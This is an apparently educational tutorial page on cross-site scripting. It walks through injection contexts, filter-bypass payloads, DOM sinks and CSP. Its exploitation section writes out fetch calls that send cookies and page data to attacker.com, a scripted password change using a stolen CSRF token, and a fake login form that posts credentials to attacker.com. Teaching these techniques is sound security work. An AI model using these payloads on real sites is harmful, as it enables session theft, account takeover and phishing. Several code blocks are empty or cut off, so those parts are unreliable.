

# Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a very broad topic, but it revolves around one idea: executing malicious JavaScript. This is often from an attacker's site, hence "Cross-Site" scripting. A common distinction made between types of XSS is:

* **Reflected XSS**: Inject HTML as some content from a parameter that is _reflected_ directly on the target page. This payload is not stored and is seen only if the malicious URL is visited
* **Stored XSS**: Store a payload somewhere, which is later loaded insecurely which places the injected HTML directly onto the page. The difference here is that the payload is saved on the server side in some way, and is later retrieved by a victim
* **DOM XSS**: A special variant not using HTML, but rather the **D**ocument **O**bject **M**odel (DOM) in JavaScript code itself. When malicious data ends up in JavaScript "sinks" that are able to execute code, such as `location = "javascript:..."`, the payload is triggered via the DOM. The payload may still be either reflected or stored, but it is often called DOM XSS

The most basic form of XSS looks like this. Imagine a page that takes some parameter as input, and reflects it back in the response without any filtering:

```php
<?php echo $_GET["html"];
```

The intention might be that we can write some styled code like `<b>hello</b>` to write in **bold**, but instead, an attacker can use a tag like `<script>` to include JavaScript code:

```html
http://example.com/page?html=<script>alert(document.cookie)</script>
```

This will place the `document.cookie` value (all your Cookies, like session tokens) in a simple `alert()` box that pops up on your screen. This is a common proof-of-concept to show an attacker is able to access and possibly exfiltrate a user's cookies in order to impersonate them.&#x20;

## Contexts

There are a few different places where your input might end up inside HTML to create dynamic pages. Here are a few common ones for example:


```html
<p>INJECTION_HERE</p>
```



```html

```



```html
<script>
    let a = "INJECTION_HERE";
</script>
```


Depending on the **context**, you will need different syntax to do the following steps:

1. Escape the original code, by closing tags (eg. `</textarea>`) or strings (`"` or `'`)
2. Write the JavaScript payload that will execute
3. Possibly fixing the rest of the code that normally comes after, to prevent errors

For the **Attribute context** as an example, we could exploit it by 1. Escaping by starting with a `"` that will close off the string, then 2. Add our own attribute like `onerror=alert()` to execute a function when the image fails to load, and finally 3. Close off the last quote by ending with something meaningless like `x="` that will be closed by a quote. Altogether it could look like this:

<pre class="language-html"><code class="lang-html">&#x3C;img src="INJECTION_HERE">
<strong>Payload: " onerror=alert() x="
</strong>&#x3C;img src="" onerror=alert() x="">
</code></pre>

When this is rendered to the page, the image with `src=""` will likely fail to load as the current page is not an image. Then the `onerror=` handler is triggered to pop an alert box open, and the tag is closed cleanly. This is the basic idea for all JavaScript Injections. The following sections will explore the various contexts in more detail.&#x20;

### HTML Injection

With zero protections, the simplest-to-understand injection is:

```html
<script>alert()</script>
```

This starts JavaScript syntax using the `<script>` tag, and executes the `alert()` function. There are however a few caveats that will result in this payload _not always working_. The most important is the difference between **server-inserted** code and **client-inserted** code. \
When the server inserts your script into the HTML, the browser doesn't know any better and trusts the code so it will be run as if it is part of the first original page. \
When instead the code is possibly fetched and then inserted by some other client-side JavaScript code like `element.innerHTML = "<script>..."`, it will be inserted after the document has already loaded, and follow some different rules. For one, inline scripts like these **won't** execute directly, as well as some other elements that are not directly loaded after they have been inserted into the DOM.&#x20;

Because of the above reasons, it is often a safer idea to use a common payload like:

```html

```

The special thing about this payload is that an image should be loaded, which the browser really wants to do as soon as it is inserted, even on the client side. This causes the `onerror=` handler to instantly trigger consistently, no matter how it is inserted (read more details in [#triggers](cross-site-scripting-xss.md#triggers "mention")).\
In some cases a common variation is the following:

<pre class="language-html"><code class="lang-html">&#x3C;!-- Shortest payload -->
<strong>&#x3C;svg onload=alert()>
</strong>&#x3C;!-- Short but universal -->
<strong>&#x3C;style onload=alert()>
</strong></code></pre>

The small difference between these two payloads is that the first works everywhere except **Firefox client-inserted**, and the second works everywhere while remaining relatively short.&#x20;

#### Special Tags

When inserted into the content of a `<textarea>`, JavaScript code won't be directly executed in any way. Therefore you need to first close this specific tag using `</textarea>`, and then continue with a regular XSS payload like normal.&#x20;

<pre class="language-html"><code class="lang-html">&#x3C;!-- Doesn't execute -->
&#x3C;textarea>&#x3C;img src onerror=alert()>&#x3C;/textarea>
&#x3C;!-- Does execute! -->
<strong>&#x3C;textarea>&#x3C;/textarea>&#x3C;img src onerror=alert()>&#x3C;/textarea>
</strong></code></pre>

#### Common Filter Bypasses

While the above are simple, they are also the most common, and many filters already recognize these patterns as malicious and block or sanitize your payload in some way that will try to make it safe. This topic is explored more in [#filter-bypasses](cross-site-scripting-xss.md#filter-bypasses "mention"), but a few of the best tricks are displayed here. The first is when a RegEx pattern like `<[^>]>` expects a `>` to close a tag, which can be omitted often because another future tag will close it for you:


```html
<style onload=alert() x=
```



```html
<p><style onload=alert() x=</p>
```


It is common for dangerous tags to be blacklisted, and any event handler attributes like `onload` and `onerror` to be blocked. There are some payloads however that can _encode_ data to hide these obligatory strings (`&#110;` = HTML-encoded `n`, [CyberChef](https://gchq.github.io/CyberChef/#recipe=To\_HTML\_Entity\(true,'Numeric%20entities'\)\&input=bg)):

<pre class="language-html" data-overflow="wrap"><code class="lang-html">&#x3C;!-- Use the powerful SVG &#x3C;use> tag to include HTML data (which can be encoded) -->
<strong>&#x3C;svg>&#x3C;use href="data:image/svg+xml,&#x26;lt;svg id='x' xmlns='http://www.w3.org/2000/svg'&#x26;gt;&#x26;lt;image href='1' o&#x26;#110;error='alert(1)' /&#x26;gt;&#x26;lt;/svg&#x26;gt;#x" />
</strong>
&#x3C;!-- The same idea but with base64 encoding -->
<strong>&#x3C;svg>&#x3C;use href="data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEwMCcgaGVpZ2h0PScxMDAnPgo8aW1hZ2UgaHJlZj0iMSIgb25lcnJvcj0iYWxlcnQoMSkiIC8+Cjwvc3ZnPg==#x" />&#x3C;/svg>
</strong>
&#x3C;!-- Using iframe srcdoc= attribute to include encoded HTML -->
<strong>&#x3C;iframe srcdoc="&#x26;lt;img src=1 o&#x26;#110;error=alert(1)&#x26;gt;">&#x3C;/iframe>
</strong>
&#x3C;!-- Link requiring user interaction with javascript: URL -->
<strong>&#x3C;a href="javas&#x26;#115;ript:alert()">click me&#x3C;/a>
</strong></code></pre>

One last payload is a less well-known tag called `<base>` which takes an `href=` attribute that will decide where any **relative URLs will start** from. If you set this to your domain for example, and later in the document a `<script src="/some/file.js">` is loaded, it will instead be loaded from **your website** at the path of the script.&#x20;

<pre class="language-html"><code class="lang-html"><strong>&#x3C;base href=//xss.jorianwoltjer.com>
</strong>
&#x3C;!-- Any normal relative script after this payload will be taken from the base -->
&#x3C;script src="/some/file.js">
&#x3C;!-- ^^ Will fetch 'http://xss.jorianwoltjer.com/some/file.js' instead -->
</code></pre>


To exploit and show a proof of concept of the above trick, I set up [this domain](https://xss.jorianwoltjer.com/) that returns the same script for **every path** with any payload you put into that **URL hash**. This means you can include this injection anywhere, and put a JavaScript payload after the `#` symbol of the target URL which will then be executed:

```go
http://example.com/path#alert(document.domain)
```


See [#filter-bypasses](cross-site-scripting-xss.md#filter-bypasses "mention") for a more broad approach to make your own bypass.

#### Alternative Impact

If inserting tags to achieve XSS is really not possible, due to a string filter or some other restriction, you can always try to get other impact using an HTML injection as they can be very powerful.&#x20;

One idea is to use **DOM Clobbering**, which is a technique that uses `id`'s and other attributes of tags that make them accessible from JavaScript with the `document.<name>` syntax. The possibility of this depends on what sinks are available, and should be evaluated case-by-case:


A simple reference with examples and tricks about DOM Clobbering ([more detail](https://domclob.xyz/))


If `<iframe>` tags are allowed, you may be able to load an **iframe of your malicious site**. This can then access the `top` variable in its JavaScript code to do some light interaction with the target page like `top.location = "..."` to redirect it, or [`top.postMessage()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) to send messages to `"message"` event listeners on the target page, which may have sinks for XSS or other impact like stealing secrets. These could be vulnerable if the listeners don't check the origin or a message, and is even possible if `X-Frame-Options` are denied as this happens on the target site itself.&#x20;

**Styles** using CSS can also be dangerous. Not only to restyle the page, but with selectors and URLs any secrets on the page like CSRF tokens or other private data can be exfiltrated. For details on exploiting this, see [this introduction](https://infosecwriteups.com/exfiltration-via-css-injection-4e999f63097d), an [improved version using `@import`](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b), and finally [this tool](https://github.com/d0nutptr/sic).&#x20;

As a last resort, **Phishing** can always be done using HTML to convince a user to input some credentials or perform some other action. Combining an `<iframe>` with `<style>` one can create a full-screen phishing page on the target domain, that may fool any user coming across it as the domain seems correct.&#x20;


```html
<iframe src="https://example.com"></iframe>
<style>
iframe {
    width: 100vw;
    height: 100vh;
    position: fixed;
    top: 0;
    left: 0;
    border: none;
}
</style>
```


### Attribute Injection

While [#html-injection](cross-site-scripting-xss.md#html-injection "mention") is easy when you are injecting directly into a tag's contents, sometimes the injection point is inside a tag's attribute instead:

```html


```

This is a blessing and a curse because it might look harder at first, but this actually opens up some new attack ideas that might not have been possible before. Of course, the same HTML Injection idea from before works just as well, if we close the attribute and start writing HTML:

<pre class="language-html"><code class="lang-html"><strong>Payload: ">&#x3C;style onload=alert()>
</strong>&#x3C;img src="">&#x3C;style onload=alert()>">
</code></pre>

However, this is not always possible as the `<` and `>` characters are often HTML encoded like `&lt;` and `&gt;` to make them represent data, not code. This would not allow us to close the `` tag or open a new tag to add an event handler to, but in this case we don't need it! Since we are already in an `` tag, we can simply add an attribute to _it_ with a JavaScript event handler that will trigger:

<pre class="language-html"><code class="lang-html"><strong>Payload: " onerror=alert() x="
</strong>&#x3C;img src="" onerror=alert() x="">
</code></pre>

The same goes for `'` single quotes and no quotes at all, which just need spaces to separate attributes. Using the [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) you can filter for possible triggers of JavaScript using attributes on your specific tag by filtering it and looking at the payloads. Some of these will require some user interaction like `onclick=`, but others won't.\
A useful trick with `<input>` tags specifically is the `onfocus=` attribute, together with the `autofocus` attribute which will combine to make it into a payload not requiring user interaction.

<pre class="language-html"><code class="lang-html">&#x3C;input value="INJECTION_HERE">
<strong>Payload: " onfocus=alert() autofocus x="
</strong>&#x3C;input value="" onfocus=alert() autofocus x="">
</code></pre>

### Script Injection

A special case is when the injection is found inside of a `<script>` tag. This may be done by developers when they want to give JavaScript access to some data, often JSON or a string, without requiring another request to fetch that data. When implemented without enough sanitization, however, this can be very dangerous as _tags_ might not even be needed to reach XSS.

```html
<script>
    let a = "INJECTION_HERE";
</script>
```

As always, a possibility is simply closing the context and starting an [#html-injection](cross-site-scripting-xss.md#html-injection "mention"):

<pre class="language-html"><code class="lang-html"><strong>Payload: &#x3C;/script>&#x3C;style onload=alert()>
</strong>&#x3C;script>
    let a = "&#x3C;/script>&#x3C;style onload=alert()>";
&#x3C;/script>
</code></pre>

If these `<` or `>` characters are blocked or encoded however, we need to be more clever. Similarly to [#attribute-injection](cross-site-scripting-xss.md#attribute-injection "mention"), we can close only this **string**, and then write out arbitrary JavaScript code because are already in a `<script>` block. Using the `-` subtract symbol, JavaScript needs to evaluate both sides of the expression, and after seeing the empty `""` string, it will run the `alert()` function. Finally, we need to end with a comment to prevent `SyntaxError`s:

<pre class="language-html"><code class="lang-html"><strong>Payload: "-alert()//
</strong>&#x3C;script>
    let a = ""-alert()//"";
&#x3C;/script>
</code></pre>

Another special place you might find yourself injecting into is **template literals**, surrounded by `` ` `` backticks, which allow variables and expressions to be evaluated inside of the string. This opens up more possible syntax to run arbitrary JavaScript without even having to escape the string:

<pre class="language-html"><code class="lang-html"><strong>Payload: ${alert()}
</strong>&#x3C;script>
    let a = `${alert()}`;
&#x3C;/script>
</code></pre>

#### Double Injection `\` backslash trick

One last trick is useful when you **cannot escape** the string with just a `"` quote, but when you do have **two injections on the same line**.&#x20;

<pre class="language-html" data-title="Failed attempt"><code class="lang-html"><strong>Payload 1: "-alert()//
</strong><strong>Payload 2: something
</strong>&#x3C;script>
    let a = {first: "&#x26;quot;-alert()//", second: "something"};
&#x3C;/script>
</code></pre>

The important piece of knowledge is that any character escaped using a `\` backslash character, which will interpret the character as data instead of code (see [here ](../languages/javascript.md#inside-a-string)for a table of all special backslash escapes). \
With this knowledge, we know a `\"` character will continue the string and not stop it. Therefore if we **end** our input with a `\` character, a `"` quote will be appended to it which would normally close the string, but because of our injection cause it to continue and mess up the syntax:

<pre class="language-html" data-title="Injection causes error"><code class="lang-html"><strong>Payload 1: anything\
</strong><strong>Payload 2: something
</strong>&#x3C;script>
    let a = {first: "anything\", second: "something"};
&#x3C;/script>
</code></pre>

The critical part here is that now the 2nd string that would normally _start_ the string is now _stopping the first_ string instead. Afterward, it switches to regular JavaScript context starting directly with our second input, which doesn't need to escape anything anymore. If we now write valid JavaScript here, it will execute (note that we have to also _close the `}`_):

<pre class="language-html" data-title="Success"><code class="lang-html"><strong>Payload 1: anything\
</strong><strong>Payload 2: -alert()}//
</strong>&#x3C;script>
    let a = {first: "anything\", second: "-alert()}//"};
&#x3C;/script>
</code></pre>


For more advanced tricks and information, check out the [javascript.md](../languages/javascript.md "mention") page!


### DOM XSS

This is slightly different than previous "injection" ideas and is more focussed on what special syntax can make certain "sinks" execute JavaScript code.&#x20;


Big and up-to-date collection of DOM XSS sources, sinks and techniques


The **D**ocument **O**bject **M**odel (DOM) is JavaScript's view of the HTML on a page. To create complex logic and interactivity with elements on the page there are some functions in JavaScript that allow you to interact with it. As a simple example, the `document.getElementById()` function can find an element with a specific `id=` attribute, on which you can then access properties like `.innerHTML`:

```html
<p id="hello">Hello, <b>world</b>!</p>
<script>
    let element = document.getElementById("hello");
    console.log(element.innerHTML);  // "Hello, <b>world</b>!"
</script>
```

**DOM XSS** is where an attacker can abuse the interactivity with HTML functions from within JavaScript by providing _sources_ that contain a payload, which end up in _sinks_ where a payload may trigger. A common example is setting the `.innerHTML` property of an element, which replaces all HTML children of that element with the string you set. If an attacker controls any part of this without sanitization, they can perform [#html-injection](cross-site-scripting-xss.md#html-injection "mention") just as if it was reflected by the server. A payload like the following would instantly trigger an `alert()`:

```html
<p id="hello">Hello, world!</p>
<script>
    let element = document.getElementById("hello");
    element.innerHTML = "";
</script>
```

Sources are where data comes from, and there are many for JavaScript. There might be a URL parameter from [`URLSearchParams`](https://developer.mozilla.org/en-US/docs/Web/API/URLSearchParams/URLSearchParams) that is put in some HTML code, `location.hash` for `#...` data after a URL, simply a `fetch()`, `document.referrer`, and even `"message"` listeners which allow [`postMessage()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) communication between origins.&#x20;

When any of this controllable data ends up in a sink without enough sanitization, you might have an XSS on your hands. Just like contexts, different sinks require different payloads. A `location =` sink for example can be exploited using the `javascript:alert()` protocol to evaluate the code, and an `eval()` sink could require escaping the context like in [#script-injection](cross-site-scripting-xss.md#script-injection "mention").


**Note**: A special less-known property is `window.name` which is surprisingly also cross-origin writable. If this value is used in any sink, you can simply open it in an iframe or window like shown below and set the `.name` property on it!


#### JQuery - `$()`

A special case is made for JQuery as it is still to this day a popular library used by many applications to ease DOM manipulation from JavaScript. The `$()` selector can find an element on the page with a similar syntax to the more verbose but native `document.querySelector()` function (CSS Selectors). It would make sense that these selectors would be safe, but if unsanitized **user input** finds its way into the selector string of this `$` function, it will actually lead to XSS as `.innerHTML` is used under the hood!

A snippet like the following was very commonly exploited ([source](https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-in-jquery)):

<pre class="language-javascript" data-title="Old vulnerable example"><code class="lang-javascript">$(window).on('hashchange', function() {
<strong>    var element = $(location.hash);
</strong>    element[0].scrollIntoView();
});
</code></pre>

Here the `location.hash` _source_ is put into the vulnerable _sink_, which is exploitable with a simple `#` payload. In the snippet, this is called on the [`hashchange`](https://developer.mozilla.org/en-US/docs/Web/API/Window/hashchange\_event) event it is not yet triggered on page load, but only after the hash has _changed_. In order to exploit this, we need to load the page normally first, and then after some time when the page has loaded we can replace the URL of the active window which will act as a "change". Note that **reading** a location is not allowed cross-origin, but **writing** a new location is, so we can abuse this.&#x20;

If the target allows being iframed, a simple way to exploit this is by loading the target and changing the `src=` attribute after it loads:


```html
<iframe src="https://target.com/#" onload="this.src+=''">
```


Otherwise, you can still load and change a URL by `open()`'ing it in a new window, waiting some time, and then changing the location of the window you held on to (note that the [`open()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/open) method requires user interaction like an `onclick=` handler to be triggered):


```html
<button onclick=start()>Start</button>
<script>
    function start() {  // Open a new tab
        let target = open("https://target.com/#");
        setTimeout(function () {  // Wait for target to load
            target.location = "https://target.com/#";
        }, 2000);
    }
</script>
```


Important to note is that the vulnerable code above with `$(location.hash)` above is **not vulnerable anymore** with recent versions of JQuery because an extra rule was added that selectors _starting_ with `#` are _not_ allowed to have HTML, but **anything else is still vulnerable**. A snippet like below will still be vulnerable in modern versions because it is not prefixed with `#`, and it URL decodes the payload allowing the required special characters. Context does not matter here, simply `` anywhere in the selector will work.&#x20;


```javascript
let hash = decodeURIComponent(window.location.hash.slice(1));
$(`h2:contains(${hash})`);
```


JQuery also has many other methods and CVEs if malicious input ends up in specific functions. Make sure to check all functions your input travels through for possible DOM XSS.&#x20;

#### Triggers (HTML sinks)

1. 
   ```javascript
   let div = document.createElement("div")
   div.innerHTML = ""
   ```
   
2. 
   ```javascript
   let div = document.createElement("div")
   document.body.appendChild(div)
   div.innerHTML = ""
   ```
   
3. 
   ```javascript
   document.write("` payload is the most universal as it works in every situation, even when it is not added to the DOM yet. The common and short `<svg onload=alert()>` payload is interesting as it is only triggered via `.innerHTML` on Chome, and not Firefox. Lastly, the `<script>` tag does not load when added with `.innerHTML` at all.

<figure><figcaption><p>Table of XSS payloads and DOM sinks that trigger them (<mark style="color:yellow;">yellow</mark> = Chrome but not Firefox)</p></figcaption></figure>


**Source code** for script used to generate and test the results in the table above


## Exploitation

Making an `alert()` pop up is cool, but to show the impact it might be necessary to exploit what an XSS or JavaScript execution gives you. The summary is that you can do almost everything a user can do themselves, but do this for them. You can click buttons, request pages, post data, etc. which open up a large field of impact, depending on what an application lets the user do.&#x20;

### From another site

The _Cross-Site_ in XSS means that it should be exploitable from another malicious site, which can then perform actions on the victim's behalf on the target site. It is always a good idea to test exploits locally first with a simple web server like `php -S 0.0.0.0:8000`, and when you need to exploit something remotely it can be hosted temporarily with a tool like [ngrok](https://ngrok.com/), or permanently with a web server of your own.&#x20;

The easiest is **Reflected XSS**, which should trigger when a specific URL is triggered. If someone visits your page, you can simply redirect them to the malicious URL with any payload to trigger the XSS:


```html
<script>
    location = "https://target.com/endpoint?xss=<style onload=alert()>"
</script>
```



Note that [URL Encoding](https://gchq.github.io/CyberChef/#recipe=URL\_Encode\(true\)\&input=PHN0eWxlIG9ubG9hZD1hbGVydCgpPg) might be needed on parameters to make sure special characters are not part of the URL, or to simply obfuscate the payload


For **Stored XSS**, a more likely scenario might be someone else stumbling upon the payload by using the site normally, but if the location is known by the attacker they can also redirect a victim to it in the same way as Reflected XSS as shown above.&#x20;

Some exploits require more complex interaction between the attacker and the target site, like `<iframe>`'ing (only if [#content-security-policy-csp](cross-site-scripting-xss.md#content-security-policy-csp "mention") and `X-Frame-Options` allows) or opening windows (only when handling user interaction like pressing a button with `onclick=`).&#x20;

### Stealing Cookies

In the early days of XSS, this was often the target vector for exploitation, as session cookies could be stolen and exfiltrated to an attacker to later impersonate them on demand. This is done with the `document.cookie` variable that contains all cookies as a string. Then using `fetch()` a request containing this data can be made to the attacker's server to read remotely:

```javascript
fetch("http://attacker.com/leak?cookie=" + document.cookie)
```

Pretty often, however, modern frameworks will set the `httpOnly` flag on cookies which means they will **not** be available for JavaScript, only when making HTTP requests. This `document.cookie` variable will simply not contain the cookie that the flag is on, meaning it cannot be exfiltrated directly. But the possibilities do not end here, as you can still **make requests** using the cookies from within JavaScript, just not directly read them.&#x20;


In very restricted scenarios you might not be able to make an outbound connection due to the `connect-src` [#content-security-policy-csp](cross-site-scripting-xss.md#content-security-policy-csp "mention") directive. See that chapter for ideas on how to still exfiltrate data


### Forcing requests - `fetch()`

When making a `fetch()` request to the same domain you are on, cookies are _included_, even if `httpOnly` is set. This opens up many possibilities by requesting data and performing actions on the application. When making a request, the response is also readable because of the [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin\_policy), as we are on the same site as the request is going to.&#x20;

One idea to still steal cookies would be to request a page that responds with the cookie information in some way, like a debug or error page. You can then request this via JavaScript `fetch()` and exfiltrate the response:


```javascript
fetch("http://target.com/debug")  // Perform request
    .then(res => res.text())      // Read response as text
    .then(res => fetch("http://attacker.com/leak?" + res));
```



```log
"GET /leak?session=... HTTP/1.1" 404 -
```



**Tip**: For more complex data, you can use `btoa(res)` to Base64 encode the data which makes sure no special characters are included, which you can later decode


A more common way of exploitation is by requesting personal data from a settings page or API route, which works in a very similar way as shown above.&#x20;

#### Performing actions

Performing actions on the victim's behalf can is also common and can result in a high impact, depending on their capabilities. These are often done using POST requests and may contain extra data or special headers. Luckily, [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch\_API/Using\_Fetch) allows us to do all that and more! Its second argument contains `options` with keys like `method:`, `headers:`, and `body:` just to name a few:


```javascript
fetch("http://target.com/api/change_password", {
    method: "POST",
    headers: {
        "Content-Type": "application/json",
        "X-Custom-Header": "anything"
    },
    body: JSON.stringify({
        "password": "hacked",
        "confirm_password": "hacked"
    })
})
```



```http
POST /api/change_password HTTP/1.1
Host: target.com
Cookie: session=...
X-Custom-Header: anything
Content-Type: application/json
Content-Length: 49

{"password":"hacked","confirm_password":"hacked"}
```


doDue to `fetch()` only being a simple function call, you can create a very complex sequence of actions in JavaScript code to execute on the victim, as some actions require some setup. You could create an API token using one request, and then use it in the next to perform some API call. Or a more common example is fetching a CSRF token from some form, and then using that token to POST data if it is protected in that way. As you can see, CSRF tokens do _not_ protect against XSS:

```javascript
fetch("http://target.com/login")  // Request to some form with CSRF token
    .then(res => res.text())
    .then(res => {
        // Extract CSRF token
        const csrf_token = res.match(/<input type="hidden" name="csrf_token" value="(.*)" \/>/)[1];
        // Build password reset form data
        const form = new FormData();
        form.append("csrf_token", csrf_token);
        form.append("password", "hacked");
        form.append("confirm_password", "hacked");

        // Perform another request with leaked token
        fetch("http://target.com/change_password", {
            method: "POST",
            body: form
        });
    });
```

### Phishing (+ Password Managers)

XSS gives you complete control over the JavaScript execution on a page, meaning you can also control everything that is on the page, under the regular target's domain. This can create phishing pages indistinguishable from the real login page because the content can be controlled as well as the domain in the navigation bar. As shown in[#alternative-impact](cross-site-scripting-xss.md#alternative-impact "mention"), just using an `<iframe>` and a `<style>` tag you can take over the whole page with your own. One slight problem password managers will notice is the fact that the form itself is on another domain, meaning saved passwords will not automatically be filled or suggested.&#x20;

If you instead use full JavaScript capabilities and overwrite the HTML on a page, you can create a form on the _real domain_ that password managers will happily fill out and make the victim trust:


```html
document.body.innerHTML = `
    <form action="http://attacker.com/leak" method="post">
        <input type="text" name="username"><br>
        <input type="password" name="password"><br>
        <input type="submit" value="Login">
    </form>
`
```


.png>)

Since you are executing code on the same origin, you can even **open windows** to the same domain, and control their HTML content. With this, you could create a popup window showing the real domain in the address bar, with some login form or other data.&#x20;

#### Masking a suspicious URL

A last tricky part is the URL shown in the address bar at the time of your XSS, which may make your URL like "http://target.com/endpoint?url=javascript:document.body.innerHTML=..." showing a login page very suspicious to people who check the URL. Luckily, the same origin policy comes to the rescue once again because using the [History API](https://developer.mozilla.org/en-US/docs/Web/API/History\_API) we can **overwrite the path** of a URL. Not its origin, but its path. That means we can change the suspicious URL to something expected like "/login", making it way more believable:

```javascript
history.replaceState(null, null, "/login");
```

## Protections

XSS is a well-known issue, and many protections try to limit its possibility on websites. There are basically two cases a website needs to handle when reflecting a user's content:

1. Content, but **no HTML** is allowed (almost all data)
2. **Limited HTML tags** are allowed (rich text like editors)

The **1st** is very easily protected by using HTML Encoding. Many frameworks already do this by default, and explicitly have you write some extra code to turn it off. Most often this encodes only the special characters like `<` to `&lt;`, `>` to `&gt;`, and `"` to `&quot;`. While this type of protection is completely safe in most cases, some situations exist where these specific characters are _not required_ to achieve XSS. We've seen examples of [#attribute-injection](cross-site-scripting-xss.md#attribute-injection "mention") where a `'` single quote is used instead, which may not be encoded and thus can be escaped. Or when your attribute is not enclosed at all and a simple   space character can add another malicious attribute. With [#script-injection](cross-site-scripting-xss.md#script-injection "mention") this is a similar story, as well as [#dom-xss](cross-site-scripting-xss.md#dom-xss "mention").&#x20;

The **2nd** case is _very hard_ to protect securely. First, because many tags have unexpected abilities, like the `<a href=javascript:alert()>` protocol. If posting links is allowed, they need to think about preventing the `javascript:` protocol specifically and allowing regular `https://` links. There exist a ton of different tags and attributes that can execute JavaScript (see the [Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) making a blocklist almost infeasible, and an allowlist should be used. \
The second reason this is hard is because browsers are _weird_, like _really weird_. The [HTML Specification](https://html.spec.whatwg.org/) contains a lot of rules and edge cases a filter should handle. If a filter parses a specially crafted payload differently from a browser, the malicious data might go unnoticed and end up executing in the victim's browser.&#x20;

### Content Security Policy (CSP)

A more modern protection against XSS and some other attacks is the [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP). This is a Header (`Content-Security-Policy:`) or `<meta>` value in a response that tells the browser what should be allowed, and what shouldn't. An important directive that can be set using this header is [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src), defining where JavaScript code may come from:

```http
Content-Security-Policy: script-src 'self' https://example.com/
```

With the above policy set, any `<script src=...>` that is _not_ from the current domain or "example.com" will be blocked. When you explicitly set a policy like this it also disables inline scripts like `<script>alert()</script>` or event handlers like `<style onload=alert()>` from executing, even ones from the server itself as there is no way to differentiate between intended and malicious. This possibly breaking change where all scripts need to come from trusted URLs is sometimes "fixed" by adding a special [`'unsafe-inline'`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#unsafe\_inline\_script) string that allows inline script tags and event handlers to execute, which as the name suggests, is very **unsafe**.&#x20;

A different less-common way to allow inline scripts without allowing _all_ inline scripts is with **nonce**s, random values generated by the server. This nonce is put inside of the `script-src` directive like `'nonce-2726c7f26c'`, requiring every inline script to have a `nonce=` attribute equaling the specified random value. In theory, an attacker should not be able to predict this random value as it should be different for every request. This works in a similar way to CSRF tokens and relies on secure randomness by the server. If implemented well, this is a very effective way of preventing XSS.&#x20;

The last important string in this directive is `'unsafe-eval'` which is disabled by default, blocking several functions that can execute code from a string:

* `eval()`
* `Function()`
* Passing a string to `setTimeout()`, `setInterval()` or `window.setImmediate()` \
  (for example: `setTimeout("alert()", 500)`)

Note however that this does not prevent all methods of executing code from a string. If `'unsafe-inline'` allows it, you can still write to the DOM with event handlers if required:

```javascript
document.body.setAttribute('onclick', 'alert(1)')
document.body.click()
```

To easily evaluate and find problems with a CSP header, you can use Google's CSP Evaluator which tells you for every directive what potential problems it finds:


Google's Content-Security-Policy evaluator showing potential issues


#### Hosting JavaScript on `'self'`

The URLs and `'self'` trust all scripts coming from that domain, meaning in a secure environment no user data should be stored under those domains, like uploaded JavaScript files. If this is allowed, an attacker can simply upload and host their payload on an allowed website and it is suddenly trusted by the CSP.&#x20;


```javascript
alert()
```



```html
<script src=/uploads/payload.js></script>
```


For more complex scenarios where you cannot directly upload `.js` files, the `Content-Type:` header comes into play. The browser decides based on this header if the requested file is likely to be a real script, and if the type is `image/png` for example, it will simply refuse to execute it:

<figure><figcaption><p>Browser refusing to execute <code>image/png</code> file as JavaScript source</p></figcaption></figure>

Some more ambiguous types are allowed, however, like `text/plain`, `text/html` or **no type at all**. These are especially useful as commonly a framework will decide what `Content-Type` to add based on the file extension, which may be empty in some cases causing it to choose a type allowed for JavaScript execution. This ambiguity is prevented however with an extra \
`X-Content-Type-Options: nosniff` header that is sometimes set, making the detection from the browser a lot more strict and only allowing real `application/javascript` files ([full list](https://chromium.googlesource.com/chromium/src.git/+/refs/tags/103.0.5012.1/third\_party/blink/common/mime\_util/mime\_util.cc#50)).&#x20;

An application may sanitize uploaded files by checking for a few signatures if it looks like a valid PNG, JPEG, GIF, etc. file which can limit exploitability as it still needs to be valid JavaScript code without `SyntaxError`s. In these cases, you can try to make a **"polyglot"** that passes the validation checks of the server, while remaining valid JavaScript by using the file format in a smart way and language features like comments to remove unwanted code.&#x20;

Another idea instead of _storing_ data, is **reflecting** data. If there is any page that generates a response you can turn into valid JavaScript code, you may be able to abuse it for your payload. [JSONP](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) or other callback endpoints are also useful here as they always have the correct `Content-Type`, and may allow you to insert arbitrary code in place of the `?callback=` parameter, serving as your reflection of valid JavaScript code.&#x20;

#### Exfiltrating with strict [`connect-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src)

* [ ] even use regular functionality to exfiltrate data, like uploading a file / posting data an attacker can find

This directive defines which hosts can be **connected to**, meaning if your attacker's server is not on the list, you cannot make a simple `fetch()` request to your server in order to exfiltrate any data. While there is no direct bypass for this, you may be able to still connect to any origin **allowed** to exfiltrate data by **storing** it, and later retrieving it as the attacker at a place you can find. By [#forcing-requests-fetch](cross-site-scripting-xss.md#forcing-requests-fetch "mention"), you could, for example, make a POST request that changes a profile picture, or some other public data, while embedding the data you want to exfiltrate. This way the policy is not broken, but the attacker can still find the data on the website itself.&#x20;

With this technique, remember that even _one bit_ of information is enough, as you can often _repeat_ it to reveal a larger amount of information.&#x20;

#### CDNs in `script-src` (Angular Bypass)

Every origin in this directive is trusted with all URLs it hosts. A common addition here is CDN (Content Delivery Network) domains that host many different JavaScript files for libraries. While in very unrestricted situations a CDN like [unpkg.com](https://www.unpkg.com/) will host **every file on NPM**, even malicious ones, others are less obvious.&#x20;

